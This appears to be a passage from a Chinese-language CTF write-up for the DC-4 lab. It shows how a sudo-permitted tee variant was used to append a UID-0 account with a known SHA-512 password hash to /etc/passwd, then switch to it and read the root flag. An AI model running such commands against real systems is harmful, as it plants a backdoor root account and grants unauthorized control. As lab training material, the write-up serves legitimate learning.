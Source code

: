 对于admin::0:0:::/bin/bash的解释

```
[用户名]：[密码]：[UID]：[GID]：[身份描述]：[主目录]：[登录shell]
```

[参考文章](https://www.cnblogs.com/backlion/p/10503978.html)  

![upload successful](https://lnng.top/images/pasted-192.png)

**upload successful**

  
也可以不将密码设置为空

```
mkpasswd -m SHA-512 12345
```

![upload successful](https://lnng.top/images/pasted-195.png)

**upload successful**

  
然后

```
sudo teehee -a /etc/passwd 12345:$6$OXVv4N3qtVc0LQeI$CPmgAD9tTpzpCu86IaC9gIx6MYta8/huc3utEd3WwyhUWSbDxKIwi/3XCAHjOqn.rT/lamYZTxbKDoJXkxXaa1:0:0:::/bin/bash
```

其中-e 类似等于>>  
然后切换用户  

![upload successful](https://lnng.top/images/pasted-196.png)

**upload successful**

  

![upload successful](https://lnng.top/images/pasted-197.png)

**upload successful**

```
cat /root/flag.txt
```

```

888       888          888 888      8888888b.                             888 888 888 888 
888   o   888          888 888      888  "Y88b                            888 888 888 888 
888  d8b  888          888 888      888    888                            888 888 888 888 
888 d888b 888  .d88b.  888 888      888    888  .d88b.  88888b.   .d88b.  888 888 888 888 
888d88888b888 d8P  Y8b 888 888      888    888 d88""88b 888 "88b d8P  Y8b 888 888 888 888 
88888P Y88888 88888888 888 888      888    888 888  888 888  888 88888888 Y8P Y8P Y8P Y8P 
8888P   Y8888 Y8b.     888 888      888  .d88P Y88..88P 888  888 Y8b.      "   "   "   "  
888P     Y888  "Y8888  888 888      8888888P"   "Y88P"  888  888  "Y8888  888 888 888 888 


Congratulations!!!

Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```
